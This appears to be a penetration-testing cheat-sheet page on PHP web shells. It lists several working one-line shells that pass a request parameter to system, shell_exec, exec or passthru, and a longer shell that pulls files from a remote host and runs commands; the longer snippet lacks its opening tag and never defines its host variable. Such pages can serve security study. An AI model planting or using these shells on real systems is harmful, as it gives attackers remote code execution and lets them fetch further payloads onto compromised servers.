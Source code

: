 # Web Shells

## WebShells

WebShells are simply shells that the user can interact with on a web interface, however we can build our own malicious shells to gain remote code execution or access to the target system.

### PHP WebShells

We can use some built-in functions to execute a shell, however you may want to [read this](https://stackoverflow.com/questions/1924939/among-request-get-and-post-which-one-is-the-fastest) first if you're not sure which request method to use.

Basically:

* You should use `$_GET` when someone is requesting data **from** the application.
* You should use `$_POST` when someone is pushing _\(inserting or updating ; or deleting\)_ data **to** the application.

system\(\):

```php
<?php system($_GET['cmd']);?>
```

shell\_exec\(\):

```php
<?php shell_exec($_GET['cmd']);?>
```

exec\(\):

```php
<?php exec($_GET['cmd']);?>
```

passthru\(\): 

```php
<?php passthru($_GET['cmd']);?>
```

Very functional shell:

```php
<?php
    echo "<pre>" . system($_GET['cmd']) . "</pre>";
?>
```

We can a create a more functional shell as follows:

```php
# Upload
if (isset($_GET['fupload'])) {
    file_put_contents($_GET['fupload'], file_get_contents($ip . $_GET['fupload']));
};
# Execute code
# shell_exec() or system() or exec()
if (isset($_GET['cmd'])) {
    echo "<pre>" . exec($_GET['cmd']) . "</pre>";
};
?>
```




